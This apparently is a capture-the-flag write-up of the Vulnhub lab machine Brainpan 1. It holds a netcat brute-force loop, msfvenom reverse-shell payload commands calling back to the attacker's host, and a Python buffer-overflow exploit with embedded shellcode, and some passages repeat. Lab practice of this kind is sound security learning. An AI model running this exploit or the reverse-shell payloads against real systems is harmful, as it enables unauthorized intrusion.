Brainpan 1 is an intermediate OSCP-like machine hosted on Vulnhub which features a Windows x86 buffer overflow as the foothold.
Network Scan
As always, I’ve used Nmap to sweep the network and get the IP of the target machine.

The IP of the target machine is 192.168.56.131, as .10 is my machine.
Port Scan

This time there are two services listening in strange ports, so I used the default NSE scripts to gather more information about them.

 Port 9999 has an unknown application which asks for a password, while port 10000 is a Python SimpleHTTPServer.
Port 9999 has an unknown application which asks for a password, while port 10000 is a Python SimpleHTTPServer.
Port 10000 Enumeration
In the root page we get an image with some good coding practices.
 I couldn’t find anything interesting while enumerating manually, but Gobuster found a directory.

The bin directory has directory listing enabled and from there we can download a Windows executable.
I couldn’t find anything interesting while enumerating manually, but Gobuster found a directory.

The bin directory has directory listing enabled and from there we can download a Windows executable.

Brainpan.exe and Obtaining a Shell
Brainpan.exe is the program that is listening on port 9999 on the target machine.

 I attempted to bruteforce the password while I was examining the code using OllyDbg.
I attempted to bruteforce the password while I was examining the code using OllyDbg.
for pass in $(cat test.txt)
do
result=$(echo $pass | nc localhost 9999 | grep "ACCESS DENIED")
if [ -z "$result" ]
then
echo $pass works!
exit
fi
done I found the password when I was reading the get_reply function (the string that was being passed as a parameter to strcmp), but using it didn’t do anything. I also noticed that the program uses the strcpy function, which is unsafe.

I used msf-pattern_create to generate a pattern with 1000 characters to test if the application would crash and then I used msf-pattern_offset to get the exact position.
 

To control the EIP register we need to send 524 junk bytes and the direction where we want to jump. I also found a function called winkwink with a “JMP esp” instruction at 0x311712F3, which means we can try to execute some shellcode (I should have checked the memory protections to see if NX was enabled, but I didn’t know how to do this with OllyDbg and I didn’t have a Windows VM prepared).


To control the EIP register we need to send 524 junk bytes and the direction where we want to jump. I also found a function called winkwink with a “JMP esp” instruction at 0x311712F3, which means we can try to execute some shellcode (I should have checked the memory protections to see if NX was enabled, but I didn’t know how to do this with OllyDbg and I didn’t have a Windows VM prepared).
I generated two shellcodes, one for Windows and the other one for Linux using msfvenom.
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.10 LPORT=1234 -f py -v shellcode -a x86 –platform Windows -b "\x00\x0a" #Windows shellcode
msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=192.168.56.10 -f py -v shellcode -a x86 –platform Linux -b "\x00\x0a" #Linux shellcodeAt first the shellcode didn’t execute properly, so I searched on the Internet and I found the NOP Sled technique, which consists in placing some NOP instructions before the shellcode to try to ensure that the shellcode will be executed completely. Using 16 NOPs (0x90) makes the shellcode work properly.
import struct
#Linux shellcode generated using msf-venom
shellcode = b""
shellcode += b"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\x3d\xfb\x67"
shellcode += b"\x3e\x2b\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc"
shellcode += b"\x03\x65\xe8\x85\xcb\xa4\xd5\xbd\xd7\x95\xaa"
shellcode += b"\x12\x72\x1b\xa4\x74\x32\x7d\x7b\xf6\xa0\xd8"
shellcode += b"\x33\xc8\x0b\x5a\x7a\x4e\x6d\x32\xbd\x18\xb5"
shellcode += b"\xc8\x55\x5b\xc6\xc8\x77\xd2\x27\x60\x11\xb5"
shellcode += b"\xf6\xd3\x6d\x36\x70\x32\x5c\xb9\xd0\xdc\x31"
shellcode += b"\x95\xa7\x74\xa6\xc6\x68\xe6\x5f\x90\x94\xb4"
shellcode += b"\xcc\x2b\xbb\x88\xf8\xe6\xbc"
#Junk bytes to fill the buffer
junk = 'A'*524
#Address of the JMP esp instruction
retAddr = struct.pack("<I",0x311712F3)
#Payload with 16 NOPs
print junk+retAddr+"\x90"*16+shellcodeI used the Linux shellcode because I knew that the target machine was using Linux (and I already tested it in my machine).
 

PrivEsc to Root
Running sudo -l we can see that puck can run a script as root without suppling the password. This script has three functions (network, proclist and manual). The manual function runs the man command with the argument that we supply.

 The man command uses a pager to show the manual and this pager allows us to run commands (and even to get a shell). I won’t explain the method but I’ll leave a link to it.

The man command uses a pager to show the manual and this pager allows us to run commands (and even to get a shell). I won’t explain the method but I’ll leave a link to it.

Conclusions
This is a really fun and a bit difficult machine that helped me practising buffer overflow. I’ve learnt about the NOP sled technique and the importance of having a Windows VM to test programs in there (I’ll work on this in the future).